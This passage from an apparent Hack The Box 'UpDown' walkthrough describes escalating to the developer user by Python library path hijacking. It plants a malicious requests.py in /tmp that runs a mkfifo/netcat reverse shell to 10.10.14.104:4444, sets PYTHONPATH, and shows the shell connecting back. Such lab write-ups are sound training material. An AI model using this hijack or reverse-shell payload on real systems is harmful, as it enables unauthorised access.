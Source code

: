 	/usr/bin/python /home/developer/dev/siteisup_test.py
	...SNIP...
	```
	> `/home/developer/dev/siteisup_test.py` - python script is called
	{: .prompt-info }
3. View `/home/developer/dev/siteisup_test.py`
	```
	www-data@updown:/tmp$ cat /home/developer/dev/siteisup_test.py
	import requests
	
	url = input("Enter URL here:")
	page = requests.get(url)
	if page.status_code == 200:
	        print "Website is up"
	else:
	        print "Website is down"
	```
	> `requests` -  library is imported
	{: .prompt-info }


## Developer - Python PATH Hijacking 
1. How do we exploit `/home/developer/dev/siteisup`?
	1. `siteisup` is calling a python script `siteisup_test.py`
	2. `siteisup_test.py` is importing a library `requests`
	3. We are able to do Python PATH Hijacking by defining our own python path to a writable directory `/tmp`
	4. Next, create a malicious python library in our writable directory `/tmp` also called `requests.py` that will invoke a reverse shell. 
	5. Since we defined that `/tmp` is our python path, `requests.py` will be executed, instead of the actual `requests.py`, invoking our reverse shell.
2. Exploiting `/home/developer/dev/siteisup`
	1. Remove `f` created earlier from our reverse shell
	2. Create malicious python library `/tmp/requests.py`
		```python
		import os;
		os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.104 4444 >/tmp/f")
		```
	2. Define our python path
		```
		www-data@updown:/tmp$ export PYTHONPATH=/tmp
		```
	3. Start `netcat` listener
		```
		┌──(root💀kali)-[~/htb/UpDown]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		```
	4. Invoke reverse shell
		```
		/home/developer/dev/siteisup
		```
	5. `developer` shell obtained
		```
		┌──(root💀kali)-[~/htb/UpDown]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		Ncat: Connection from 10.10.11.177.
		Ncat: Connection from 10.10.11.177:59048.
		$ id;whoami